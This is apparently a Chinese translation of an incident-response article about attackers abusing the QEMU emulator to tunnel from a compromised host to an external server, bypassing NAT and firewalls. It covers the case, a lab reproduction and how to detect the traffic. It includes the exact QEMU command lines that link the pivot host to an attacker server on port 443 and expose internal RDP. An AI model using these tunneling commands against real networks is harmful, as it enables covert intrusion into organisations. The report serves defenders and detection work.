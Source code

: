 

# [翻译]使用 QEMU 进行内网穿透？ - 先知社区

\[翻译\]使用 QEMU 进行内网穿透？

- - -

翻译原文： [https://securelist.com/network-tunneling-with-qemu/111803/](https://securelist.com/network-tunneling-with-qemu/111803/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240306184933-37ddad06-dba7-1.png)

# 前言

网络攻击者在采取各种攻击步骤时往往会优先考虑合法工具，因为这些工具可以帮助他们逃避检测系统，同时将恶意软件的开发成本降至最低。网络扫描、捕获进程内存转储、窃取数据、远程文件执行，甚至加密驱动器，所有这些都可以使用可信软件来完成。为了在失陷的基础设施中维持权限并发起攻击，攻击者可以使用之前安装的恶意软件或通过公司的 RDP 服务器或企业 VPN 与员工一起连接到网络（为此，攻击者必须拥有适当权限的帐户）。连接到受攻击组织内部网络的另一种方法是使用实用工具在公司系统和失陷的服务器之间建立网络隧道或端口转发，这使得攻击者能够绕过NAT和防火墙来访问内部系统。本文想在这里讨论的正是这一类软件。

# 工具统计

目前有很多在两个系统之间建立网络隧道的实用工具。其中一些直连，而另一些则使用代理，隐藏攻击者服务器的IP地址。以下是我们在过去三年中网络应急响应时遇到的工具。

-   Stowaway
-   ligolo
-   3proxy
-   dog-tunnel
-   chisel
-   FRP
-   ngrok
-   gs-netcat
-   plink
-   iox
-   nps  
    最常用的是 ngrok 和 FRP。此类程序占攻击总数的10%。  
    #QEMU作为隧道工具  
    几个月前，在调查一家大公司的一起安全事件时，我们在其中一个系统内发现了不常见的恶意活动。我们对这些工件进行了分析，结果发现攻击者部署并启动了以下程序
-   ip扫描器
-   密码、哈希值和 Kerberos 票证提取器以及 Active Directory攻击工具
-   QEMU 硬件模拟器  
    前两个不用说了，但 QEMU 有一些问题。恶意攻击者使用 QEMU虚拟器有什么用？  
    我们能够从受感染机器的内存中找到 QEMU 执行命令行。我们发现它是在没有 LiveCD 或磁盘映像的情况下启动的，这对于 QEMU 来说非常不寻常。这些是攻击者用来运行 QEMU 的参数：
    
    ```plain
    qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    ```
    
    其中 <ip> 是外部 IP 地址。让我们仔细看看这些参数。</ip>
-   \-m 1M：指定分配给虚拟机的 RAM 大小。在本例中为 1 MB，对于大多数操作系统来说完全不够。
-   \-netdev user,id=lan,restrict=off：创建一个名为lan、类型为user的虚拟网络接口，该接口允许虚拟机通过主机网络堆栈与外界通信。 limit=off 选项删除对入站和出站连接的限制。
-   \-netdev socket,id=sock,connect=<ip>:443：创建名为 sock 的套接字类型网络接口，该接口提供到指定 IP 地址和端口 443 的远程服务器的连接。</ip>
-   \-netdev hubport,id=port-lan,hubid=0,netdev=lan：向hubid=0的虚拟集线器添加端口，该端口链接到虚拟网络接口lan。
-   \-netdev hubport,id=port-sock,hubid=0,netdev=sock：与上面类似，这会向链接到虚拟网络接口 sock 的虚拟集线器再添加一个端口。
-   \-ngraphic：以非 GUI 模式启动 QEMU，并带有控制台输出。  
    参数中的 IP 地址立即引起了我们的注意：它是外部的，与受攻击的公司完全无关，因此我们查阅了 QEMU 文档。我们发现 QEMU 支持虚拟机之间的连接：-netdev 选项创建可以连接到虚拟机的网络设备（后端）。众多网络设备中的每一个都由其类型定义并支持额外的选项。以下是所使用的 -netdev 值的描述。  
    这是将虚拟机连接到网络的最简单方法。流量通过主机网络堆栈，虚拟机连接到网络，就像主机上的常规应用程序一样。
    
    ```plain
    qemu-system-x86_64 -netdev user,id=mynet0 -device e1000,netdev=mynet0
    ```
    
    这里，mynet0是网络后端ID，e1000是虚拟机内部的网络适配器（前端）。类似于网络集线器连接多个网络设备。

# socket

它通过网络套接字直接连接虚拟机，以创建虚拟机网络拓扑或链接在不同主机上启动的虚拟机。

# VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet3,listen=:1234 -device e1000,netdev=mynet3
```

# VM2链接到 VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet4,connect=127.0.0.1:1234 -device 
e1000,netdev=mynet4
```

VM1 侦听端口 1234，而 VM2 连接到该端口。这就是攻击者采取的方法：他们在受感染的系统中启动了一个“客户端”，并将其连接到他们的服务器，以开放对运行“客户端”的企业网络的访问。它对受感染系统的性能几乎没有影响，因为攻击者在运行 QEMU 时既不使用磁盘映像也不使用 LiveCD。

-   我们无法准确地确定攻击者如何在自己的服务器上运行 QEMU，因此我们决定在由三个系统组成的测试环境中测试上述描述的技术。
-   InternalHost 位于网络内部，无法访问互联网，并在端口 3389 上运行 RDP 服务器。它模拟了无法访问互联网的隔离系统。
-   PivotHost 位于网络内部，但可以访问互联网。它模拟了被攻击者攻破并用于访问InternalHost 的系统。
-   AttackerServer 托管在云端，它模拟攻击者的服务器。

我们的目标是从 AttackerServer 到达 InternalHost。下图显示了隧道的总体布局。  
[![](assets/1709874361-9565d561c7923f294744cbd548ef5756.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190526-6fbebd80-dba9-1.png)  
我们在 AttackerServer 上使用 QEMU 从 Kali Linux LiveCD 启动虚拟机。套接字类型的网络设备作为网络适配器连接到虚拟机并侦听端口 443。

```plain
qemu-system-x86_64 -boot d -cdrom kali-linux-2023.3-live-amd64.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:443
```

QEMU 的另一个副本在 PivotHost 上运行，并通过套接字网络设备连接到云中 AttackerServer 上的端口 443。我们还连接了一个用户型网络设备，通过集线器与socket结合。我们使用的 QEMU 启动选项与对手之前使用的类似。

```plain
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

启动后，QEMU 会建立一条从 PivotHost 到 AttackerServer（或更准确地说，到 Kali Linux VM）的网络隧道。 Kali Linux 可以扫描PivotHost 子网连接的其他系统。  
[![](assets/1709874361-25044c3a980ccc80eb6ad7d817af89c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190923-fcf0545c-dba9-1.png)  
扫描定位到InternalHost，IP地址为192.168.56.109。 Nmap 程序显示端口 3389 已打开。我们尝试使用 RDP 连接到 InternalHost。  
[![](assets/1709874361-a5f2956f4ddb4d7853d5651f55f8fafa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191022-2019dec6-dbaa-1.png)  
因此，我们能够确定这种实现内网穿透的技术确实是有效的。除了上述类型的网络设备之外，QEMU 还支持其他几种网络设备，这些设备也可能被恶意攻击者利用。

# QEMU网络流量分析

QEMU 在传输流量时不使用任何额外的加密。它传输未加密的封装数据包：发送到服务器的应用程序级数据包数据包含封装以太网帧的大小（4 字节，下图中黄色轮廓），后面是以太网帧本身（红色轮廓）。  
[![](assets/1709874361-264325bed15cbf460e3e815b146098d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191154-572187e8-dbaa-1.png)  
上图中封装的以太网帧的大小为 89 (0x59) 字节。该值后面紧跟着封装的以太网帧。  
有了流量转储（在这种情况下已在 PivotHost 上拦截），我们可以通过删除前 58 个字节来获取封装的流量（对于 TCP：14 个字节用于以太网 + 20 个字节用于 IP + 20 个字节用于 TCP 标头 + 4 个内部字节数据包大小）。从 PCAP 文件中删除所有不包含封装流量的数据包后，可以使用 Wireshark 软件包中的 editcap 实用程序来完成此操作。

```plain
editcap.exe -L -C 58 original.pcap extracted_traffic.pcap
```

结果是一个 PCAP 文件，其中包含通过隧道发送的流量。  
[![](assets/1709874361-06f789115d28aaeaf1eb9f180bf979a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191404-a430a78a-dbaa-1.png)

# 结论

恶意攻击者使用合法工具执行各种攻击步骤对于应急响应专业人员来说并不罕见。然而，我们必须承认，攻击者有时会对不太可能的软件想出巧妙的应用，就像 QEMU 的情况一样。实在是太精彩了666。
